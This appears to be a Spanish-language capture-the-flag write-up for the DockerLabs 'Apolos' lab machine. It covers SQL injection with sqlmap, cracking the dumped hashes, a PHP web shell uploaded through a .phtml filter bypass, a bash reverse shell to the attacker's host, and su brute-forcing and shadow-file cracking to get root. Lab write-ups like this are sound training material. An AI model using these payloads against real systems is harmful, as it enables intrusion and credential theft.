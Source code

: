 # apolos

Máquina "Apolos" de [DockerLabs](https://dockerlabs.es)

Autor: [Luisillo\_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Medio

![apolos](./images/apolos/img/apolos.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Thu Sep  5 15:43:53 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-09-05 15:43:53 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apple Store
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  5 15:44:01 2024 -- 1 IP address (1 host up) scanned in 8.48 seconds
```

Solo está abierto el puerto 80 y corre apache httpd.

**Puerto 80:**

![80](./images/apolos/img/apple.png)

Parece ser una página en la que podemos comprar.

Ahora un fuzzing con gobuster:

```css
gobuster dir -u http://<ip> -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/img                  (Status: 301) [Size: 306] [--> http://172.17.0.2/img/]
/index.php            (Status: 200) [Size: 5013]
/login.php            (Status: 200) [Size: 1619]
/register.php         (Status: 200) [Size: 1607]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/vendor               (Status: 301) [Size: 309] [--> http://172.17.0.2/vendor/]
Progress: 93087 / 882244 (10.55%)
===============================================================
Finished
===============================================================
```

Podemos registrarnos, por lo que simplemente nos creamos una cuenta y listo. Una vez registrados veremos esto:

![reg](./images/apolos/img/reg.png)

Si tocamos el boton de comprar ahora veremos una página en la que podemos comprar, pero lo que nos interesa es lo de buscar productos: ![buscar](./images/apolos/img/buscar.png)

este nos interesa porque funciona bien, pero si probamos en poner una inyección sql como `or 1=1-- -`, veremos que nos muestra los productos:

![sql](./images/apolos/img/sql.png)

Esto porque se ve que realiza una petición a la base de datos de manera insegura y 1 siempre es igual a 1, por lo que nos muestra los productos. Ahora que sabemos esto podemos usar `sqlmap`, para intentar leer la base de datos.

**sqlmap:**

Para usar sqlmap utilizaremos la request, por lo que abriremos el burpsuite, y capturaremos la petición al buscar un producto:

![burp](./images/apolos/img/burp.png)

La copiamos y la metemos en un archivo llamado request. Una vez hecho eso ejecutaremos sqlmap de la siguiente manera:

```css
sqlmap -r request --batch --dump
```

```css
+----+------------------------------------------+----------+
| id | password                                 | username |
+----+------------------------------------------+----------+
| 1  | 761bb015d7254610f89d9a7b6b152f1df2027e0a | luisillo |
| 2  | 7f73ae7a9823a66efcddd10445804f7d124cd8b0 | admin    |
| 3  | a94a8fe5ccb19ba61c4c0873d391e987982fbbd3 | test     |
| 4  | a94a8fe5ccb19ba61c4c0873d391e987982fbbd3 | maci     |
+----+------------------------------------------+----------+
```

Ahora usaremos `john` para crackear la contraseña de admin. Para esto nos la copiamos y lo metemos en un archivo llamado hash, luego de eso ejecutaremos john:

```css
john --wordlist=<wordlist> hash
```

Ahora tenemos la contraseña de admin: 0844575632

## INTRUSION

Ahora que tenemos el usuario y contraseña del usuario admin, iniciamos sesión y vamos a donde dice "Sección de Administración", entramos y tendremos un panel en el que podemos subir archivos al ir a "configuracion":

![admin](./images/apolos/img/ad.png)

Ahora subiremos un ".php" con el siguiente contenido:

```php
<?php
       system($_GET['cmd']);
?>
```

El problema es que al intentar subir un ".php" nos dice que no se pueden subir, por lo que buscaremos como bypasearlo para que lo suba igual. [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload):

![tricks](./images/apolos/img/tricks.png)

Como vemos hay muchas formas, en mi caso me funcionó ".phtml", ahora vamos a `/uploads/` y ya veremos el archivo. Ahora solo nos queda escuchar con netcat en el puerto 443 y enviar esto desde el navegador:

```css
http://<ip>/uploads/cmd.phtml?cmd=bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'
```

## ESCALADA DE PRIVILEGIOS

#### www-data

Antes de continuar haremos el tratamiento de la tty:

```css
script /dev/null -c bash # Ejecutamos y presionamos ctrl+Z
stty raw -echo;fg # Ejecutamos y escribimos "reset xterm" y enter
export TERM=xterm && export SHELL=bash
```

Luego de buscar un rato, la única manera de escalar es usando el script [su-bruteforce](https://github.com/carlospolop/su-bruteforce) con el mismo diccionario:

```css
./suBF.sh -u luisillo_o -w top12000.txt
```

esto demora unos 6 minutos pero finalmente encuentra la contraseña "19831983".

#### Luisillo\_o

Si ejecutamos `id` veremos que pertenecemos al grupo "shadow":

```css
uid=1001(luisillo_o) gid=1001(luisillo_o) groups=1001(luisillo_o),42(shadow)
```

por lo que si buscamos, hay una forma de escalar:

https://www.mohammedalani.com/tutorials/cracking-a-shadow-password-using-john-the-ripper/

Una vez hecho todo tal cual como sale en la página, habremos escalado a root con la contraseña "rainbow2":

![root](./images/apolos/img/root.png)

Gracias por leer.
